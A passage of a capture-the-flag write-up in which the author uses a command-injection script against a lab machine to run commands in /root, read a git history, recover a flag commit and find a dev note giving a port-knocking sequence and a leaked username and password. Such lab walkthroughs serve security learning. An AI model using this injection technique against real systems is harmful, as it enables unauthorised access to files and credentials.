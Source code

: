 Finally, a username (*hydra*) and password (*fluffybunnies123*).  I attempted to SSH into the machine as *root* and as *hydra*, however, SSH was acting very strange - another rabbit hole.

Looking at the root directory again, I noticed a `.git` directory.  Expanding the log gives:

```
$ python3 url_inject.py "10.10.148.224" "cd /root; git log"     
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```

It seems that *hydra* has put a flag in the bottom commit...

```
$ python3 url_inject.py "10.10.148.224" "cd /root; git checkout a3d30a7d0510dc6565ff9316e3fb84434916dee8; ls -la"
               HEAD is now at a3d30a7 Added the flag and dev notes
total 40
drwx------ 1 root root 4096 Feb 17 21:18 .
drwxr-xr-x 1 root root 4096 Jan  7 22:14 ..
lrwxrwxrwx 1 root root    9 Jan  6 20:51 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 1 root root 4096 Feb 17 21:19 .git
-rw-r--r-- 1 root root   53 Jan  6 20:51 .gitconfig
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root  213 Feb 17 21:18 dev-note.txt
-rw-r--r-- 1 root root   75 Feb 17 21:18 flag.txt
```

The above shows that there are two text files; a flag (thank god) and a previous version of *dev-note*.

```
$ python3 url_inject.py "10.10.148.224" "cd /root; cat dev-note.txt"
Hey guys,

I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.

Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.

Cheers,

Hydra
```
